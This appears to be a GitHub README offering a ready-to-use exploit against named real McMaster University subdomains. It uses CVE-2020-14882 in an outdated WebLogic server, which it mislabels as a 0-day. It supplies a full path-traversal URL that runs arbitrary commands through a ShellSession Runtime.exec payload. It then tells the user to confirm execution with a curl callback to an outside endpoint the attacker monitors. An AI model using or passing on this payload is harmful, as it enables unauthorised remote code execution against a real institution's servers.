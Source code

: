 # McMaster-University-0-day-Blind-Command-Injection
This targets McMaster University's website and takes advantage of CVE-2020-14882 in the outdated version of WebLogic Server (12.2.1.3.0), which is present in the university's subdomains, mosaic.mcmaster.ca and epprd.uts.mcmaster.ca.
# Usage
1. Replace "COMMAND" in [https://mosaic.mcmaster.ca/console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('COMMAND');");](https://mosaic.mcmaster.ca/console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('COMMAND');");)
2. Open the link. It should show an error but the command still runs. You can confirm it by using curl in the command to GET an endpoint URL that you monitor (which you can set in, for example, ReqBin). Then, when you open the link, an event should come up indicating that the curl command was successfuly executed.
